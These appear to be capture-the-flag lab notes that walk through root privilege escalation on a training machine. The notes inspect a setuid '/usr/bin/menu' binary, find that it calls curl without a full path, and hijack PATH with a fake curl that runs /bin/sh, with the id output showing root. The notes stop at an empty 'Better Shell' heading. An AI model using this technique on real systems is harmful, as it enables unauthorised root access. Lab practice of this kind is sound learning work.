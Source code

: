//What the heck is /usr/bin/menu


- /usr/bin/menu

'''
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
'''

- strings /usr/bin/menu

'''
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
 Invalid choice
'''

//running curl, uname, and ifconfig as root


-----------------------
	Exploiting PATH
-----------------------

- cd /tmp
- echo /bin/sh > curl
- chmod 777 curl
- export PATH=/tmp:$PATH
- /usr/bin/menu

'''
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
- id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
'''

- root gained


--------------------
	Better Shell
--------------------

---Attacker---
